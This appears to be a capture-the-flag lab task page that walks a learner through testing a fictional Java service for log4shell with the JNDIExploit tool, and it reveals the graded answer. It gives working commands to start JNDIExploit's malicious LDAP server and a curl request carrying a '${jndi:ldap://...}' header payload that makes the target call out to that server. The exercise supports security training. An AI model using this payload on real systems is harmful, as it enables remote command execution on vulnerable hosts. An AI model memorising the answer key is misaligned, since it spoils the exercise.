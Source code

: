 # Task 4: Preparing the Way 🔬

## DESCRIPTION

Looks like the attacker has been using JNDIExploit in your environment! That means they were likely trying to exploit log4j. That’s bad news, especially since you know the SudoSingles™ image optimization microservice is written in Java and uses log4j.

You need to figure out if the "sudosingles-optimizer" service is vulnerable to the log4shell exploit. Now.

A quick and efficient way to figure out if you’re vulnerable is to try to do the exploit yourself. (Maybe not the most secure way, though, so don’t try this at home.)

## DETAILS

So, you're going to use JNDIExploit to see if "sudosingles-optimizer" is vulnerable. This challenge has many parts, so go through each one carefully.

If you’re not already aware, JNDIExploit is a tool that sets up a malicious LDAP server that can be used to execute arbitrary commands on a host running an application vulnerable to the log4shell exploit.

TLDR; you’re going to trick "sudosingles-optimizer" into connecting to a malicious server so you can run whatever commands we want inside its container.

You have to set up the server first. To do this, do the following:

1. Open the Terminal Emulator application from the dock on the bottom.
2. Navigate to the hacker folder by running “cd /config/Desktop/hacker”
3. Find your private ip address on the LAN network. There are many ways to find your IP address on Linux – I'll leave this one to you. Just make sure you write it down. The IP you find should look something like 10.0.XX.XX or 10.0.XX.XXX
4. Run the JNDIExploit-1.2-SNAPSHOT.jar file using Java, configuring it to start the malicious server listening on the private IP address you found in step 3 above.

If you see something like the below, you’re on the right track:

[+] LDAP Server Start Listening on 1389... 
[+] HTTP Server Start Listening on 9001... 


To test to make sure it’s running correctly, open another Terminal Emulator window and run the following command, where YOURIP is your local IP: "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'"

To complete this challenge, after you run the above command, enter the last line generated in the Terminal Emulator window where JNDIExploit is running, and hit “Submit.” If your answer doesn’t submit, double-check all the above steps. It could mean that something is wrong with the server command.

## NOTES

For the answer, enter the whole line, exactly as it appears in your terminal.

The answer will look something like this (fill in the blanks): [+] _______ ______: ___ 

(I know it’s annoying, I just want to be sure you’ve set this up correctly, or things will be even more annoying later.)

## SCORING

String answer:

[+] Response code: 200

## HINTS

### HINT 1

To find your IP address, you can run many commands in the Linux terminal. Maybe there’s some way to use the hostname command to get what you want?

If you’re having trouble with JNDIExploit, maybe try looking at the "-h" flag?

### HINT 2

"hostname -I" will give you your private IP address.

"java –jar JNDIExploit-1.2-SNAPSHOT.jar -i PRIVATEIPADDRESS" will start the server properly.

Triple-check to make sure you’re using that IP address.

The answer is the whole last line from the Terminal Emulator window where you first ran the JNDIExploit program. Punctuation and all.

### HINT 3

1. Open a Terminal Emulator window
2. Run "hostname -I" to get your ip address
3. Run "java –jar JNDIExploit-1.2-SNAPSHOT.jar -i YOURIP"
4. Open another window and run "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'"
5. If you are successful, you should see a line that looks like the following show up in your original terminal window: "[+] Response code: 200"
